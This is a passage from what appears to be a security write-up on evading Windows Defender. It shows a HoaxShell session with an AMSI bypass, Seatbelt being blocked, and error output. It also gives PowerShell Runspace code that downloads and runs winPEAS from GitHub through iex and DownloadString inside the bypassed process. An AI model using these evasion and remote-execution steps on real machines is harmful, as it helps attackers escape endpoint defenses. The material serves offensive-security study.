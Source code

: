 ![](/assets/img/defender-evasion-shellter-hoaxshell/Invoke-SeatBelt.png)
As you can see, I have no problem importing the `Invoke-SeatBelt.ps1` module, a symptom that the AMSI PowerShell bypass works; however, as soon as I execute `Invoke-SeatBelt`, I'm blocked by .NET's AMSI, also triggering Windows Defender.
```powershell
Exception calling "Load" with "1" argument(s): "Could not load file or assembly '608256 bytes loaded from Anonymously Hosted DynamicMethods Assembly, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null' or one of its dependencies. An attempt was made to load a program with an incorrect format." Unable to find type [AnschnallGurt.Program].
```
This behavior is expected, since generally an AMSI .NET bypass would have required patching the memory of the entire process, thus triggering a detection by Windows Defender, resulting in a PowerShell kill.

However, I don't have any major problems running pure PowerShell code; otherwise, AMSI would have blocked me already when downloading the `Invoke-SeatBelt.ps1` file from GitHub. To demonstrate this, I will therefore run `winPEAS.ps1`.

Unfortunately, because of this major [limitation of HoaxShell](https://github.com/t3l3machus/hoaxshell?tab=readme-ov-file#limitations), I will have to run **winPEAS** in separate job, in the background, being careful, however, not to run a new PowerShell process, which would be created without the AMSI bypass made earlier.

For this reason, **winPEAS** was not launched using `Start-Process` or `Start-Job`, but rather through [Runspaces](https://learn.microsoft.com/en-us/powershell/scripting/developer/hosting/creating-runspaces):
```powershell
$runspace = [runspacefactory]::CreateRunspace()
$runspace.ApartmentState = "STA"
$runspace.ThreadOptions = "ReuseThread"
$runspace.Open()
$ps = [PowerShell]::Create()
$ps.Runspace = $runspace
$ps.AddScript("iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1') > C:\Users\MrTiz\Downloads\peas.txt")
$asyncResult = $ps.BeginInvoke()
```